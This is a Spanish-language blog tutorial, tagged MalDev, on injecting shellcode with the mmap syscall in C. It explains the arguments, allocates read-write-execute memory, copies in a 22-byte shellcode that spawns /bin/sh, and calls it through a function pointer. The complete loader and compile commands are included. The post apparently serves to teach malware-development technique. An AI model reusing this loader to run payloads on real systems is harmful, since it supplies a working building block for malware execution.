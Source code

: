 ```yaml
---
layout: post
title: Inyeccion de shellcodes usando la syscall mmap
author: c4rta
date: 2023-06-10
tags: [MalDev]
image: /assets/img/mmap_injection/waifu.gif
---
```

Desarrollaremos un programa en C el cual inyectara una shellcode usando la syscall mmap()
{:.lead}

## mmap

mmap es una syscall y una funcion incorporada en el header ```sys/mman.h``` la cual permite asignar o mapear memoria dentro del espacio de direcciones virtuales de un proceso, mmap regresa un puntero void (void *), la estructura es:

```c
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
```

- **void *addr**: Es la direccion desde donde se va a asignar la memoria, esta direccion se la podemos asignar manualmente, o en todo caso de que le pogamos ```NULL```, le estamos diciendo al kernel que asigne la memoria, regularmente  la asigna a direcciones cercanas pero mayores a ```/proc/sys/vm/mmap_min_addr```

- **size_t length**: Es la longitud en bytes de la memoria que se va a asignar

- **int prot**: Se refiera a con que protecciones vamos a asignar la memoria, hay varias
  - PROT_EXEC: La memoria es ejecutable
  - PROT_READ: La memoria tiene permisos de lectura
  - PROT_WRIT: La memoria tiene permisos de escritura

- **int flags**: Determina si las actualizaciones de la memoria, son visibles para otras asignaciones de memoria dentro de la misma region de la memoria, existe muchas flags, asi que puedes leer cada una de ellas [aqui](https://man7.org/linux/man-pages/man2/mmap.2.html).

- **int fd**: Es el descriptor de archivos el cual sera asginado

- **off_t offset**: Es el desplazamiento desde donde se va a asignar la memoria

Una vez sabiendo eso ya podemos comenzar a tirar codigo

## Desarrollo del programa

Primero debemos de empezar a declarar nuestra shellcode como una cadena de caracteres de esta manera:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05";
```
La shellcode ejecutara un /bin/sh

Dentro de una funcion, empezare a declarar todo el codigo de la inyeccion, primero debemos sacar el tamaño en bytes de la shellcode, ya que es uno de los argumentos que recibe **mmap**

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;
}
```
Observa que se le esta agregando un ```- 1```, esto es para quitarle el byte nulo.

Despues haremos el llamado a ```mmap```:

```c
void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );
}
```

La direccion donde se va a asignar la memoria es ```NULL``` para que el kernel la elija, el tamaño de la memoria a asignar es el tamaño de la shellcode, en las flag le decimos que la memoria se asigne con permisos de lectura, escritura, y ejecucion, con el ```-1``` le estamos diciendo al descriptor de archivos que no se requiere un archivo ya existente y que solo asigne memoria, y te podras dar cuenta de algo, estamos usando la flag ```MAP_ANONYMOUS + MAP_PRIVATE```, con esas flags le estamos indicando que la asignacion sera simplemente un bloque de memoria en ceros (por eso mismo el offset es 0), la cual estara lista de usar, ademas de ser privada, es decir, estara excluida de otras asignaciones de memoria dentro de la misma region de memoria

Aqui dibuje un diagrama de la asgnacion de memoria con mmap tomando en cuenta el ejemplo

![](/assets/img/mmap_injection/mmap.jpeg)

Lo que se ve a la izquierda es la memoria virtual de un proceso (sin entrar tanto en detalle), te podras dar cuenta que la memoria de la shellcode se asigno dentro de una seccion que se llama ```Memory Mapping```, en esta seccion se asigna memoria para las librerias compartidas y dinamicas, ademas de las asignaciones de ```mmap```, pero ojo, para que una asignacion de ```mmap``` recida en esta seccion, debe de ir con la flag ```MAP_ANONYMOUS```.

Resumidamente el diagrama seria algo asi:

- Usamos ```sizeof()``` para obtener el tamaño de la shellcode y lo guardamos en ```tam_shellcode```
- Asignamos memoria con ```mmap``` donde el tamaño es lo que tiene ```tam_shellcode``` (22 bytes)
- Usamos ```MAP_ANONYMOUS``` para indicarle que la asignacion se haga dentro de la seccion ```Memory Mapping```,

una vez que asignamos memoria para la shellcode, debemos de copiar la shellcode en esa memoria, eso lo hacemos con ```memcpy```, memcpy se usa para copiar cierta cantidad de bytes desde un origen a un destino.

```c
memcpy(shellcode_mem, shellcode, tam_shellcode);
```

En nuestro ejemplo le estamos diciendo que copie 22 bytes (tam_shellcode) del origen (shellcode), hacia la memoria que asignamos (shellcode_mem), y con esta operacion, nuestra shellcode ya estara escrita en la memoria que asigamos con mmap.

Ahora debemos de invocar a la shellcode, para eso realizamos esto:

```c
void (*shellcode_ptr)() = (void (*)())shellcode_mem;
shellcode_ptr();
```

Primero definimos ```shellcode_ptr``` como un puntero a una funcion, con el fin de asignar a ```shellcode_ptr``` la direccion de memora que contiene ```shellcode_mem``` ya que cabe recordar que ```shellcode_mem``` contiene la direccion de memoria desde donde se asigno la shellcode, que es un tipo void *

Despues con ```void (*)()``` le estamos diciendo que defina un puntero a una funcion que no recibe argumentos ni tampoco retorne nada, esto con el fin de que ```shellcode_mem``` sea interpretado como un puntero hacia esa funcion, entonces a travez de ```shellcode_ptr``` podemos mandar a llamar a ```shellcode_mem```.

Asi que cuando se haga un llamado a ```shellcode_ptr();```, ejecutara lo que esta almacenado en ```shellcode_mem```, lo cual es la shellcode:D

Despues solo queda a mandar a llamar a la funcion ```ejecutar_shellcode()``` desde el main:

```c
int main() {
    ejecutar_shellcode();
    return 0;
}
```

Y el codigo completo queda asi:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

const char shellcode[] = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"; //bin/sh

void ejecutar_shellcode(){
    size_t tam_shellcode = sizeof(shellcode) - 1;

    void* shellcode_mem = mmap(
        NULL,
        tam_shellcode,
        PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0
    );

    memcpy(shellcode_mem, shellcode, tam_shellcode);

    printf("Tamaño de la shellcode: %zu bytes\n", tam_shellcode);
    printf("Shellcode asignada desde la direccion: %p\n", shellcode_mem);

        void (*shellcode_ptr)() = (void (*)())shellcode_mem;

        shellcode_ptr();
}

int main() {
    ejecutar_shellcode();
    return 0;
}
```

Solo queda compilar y ejectuar

```
gcc -o inyeccion_mmap inyeccion_mmap.c
./inyeccion_mmap
```

Eso ha sido todo, gracias por leer ❤